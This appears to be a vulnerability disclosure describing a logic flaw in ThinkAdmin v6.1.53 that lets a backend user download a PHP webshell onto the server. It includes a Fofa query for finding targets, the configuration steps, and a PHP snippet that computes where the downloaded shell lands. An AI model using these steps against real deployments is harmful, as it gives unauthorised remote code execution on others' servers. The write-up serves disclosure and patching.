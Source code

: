 ThinkAdmin Logical defect getshell



Project Introduction

ThinkAdmin is a product that follows [MIT]（ https://mit-license.org/ ）Protocol open source rapid development framework, based on the latest version of  ThinkPHP6 , a minimalist backend management system (compatible with ThinkPHP8)

Official website: https://thinkadmin.top/



Audit version: ThinkAdmin Version v6.1.53

![image](https://github.com/1dreamGN/CVE/assets/112082417/51ff63b5-e982-40fb-bd28-5d11fe91e5ac)


 

Fofa : body="/admin/api.plugs/script"

![image](https://github.com/1dreamGN/CVE/assets/112082417/b69077fd-69ff-424f-af4e-639c6fe6f117)


Logical defect getshell
Recurrence of vulnerabilities
Log in to the backend to set system parameters

![image](https://github.com/1dreamGN/CVE/assets/112082417/ffbe221d-62d6-40e7-9a5b-996c8af3df44)


Fill in the URL of a pure static downloadable PHP webshell file here
That is, the webshell download path
Click to save the configuration
After saving, calculate the path to download to the server
The script is as follows

`function name(string $url, string $ext = '', string $pre = '', string $fun = 'md5'): string

{

  [$hah, $ext] = [$fun($url), trim($ext ?: pathinfo($url, 4), '.\\/')];

  $attr = [trim($pre, '.\\/'), substr($hah, 0, 2), substr($hah, 2, 30)];

  return trim(join('/', $attr), '/') . '.' . strtolower($ext ?: 'tmp');

}

 

$url = "webshell path";

 

echo '/upload/'.name($url, '', 'down/');`



 

![image](https://github.com/1dreamGN/CVE/assets/112082417/20b4395a-7e1f-43a6-adb0-df7c3b7e6c69)


Use the above calculation to calculate the URL variable as the URL for setting system parameters
Splicing paths is sufficient

![image](https://github.com/1dreamGN/CVE/assets/112082417/77ebfffa-fa50-40df-9a50-1c3522b28a53)
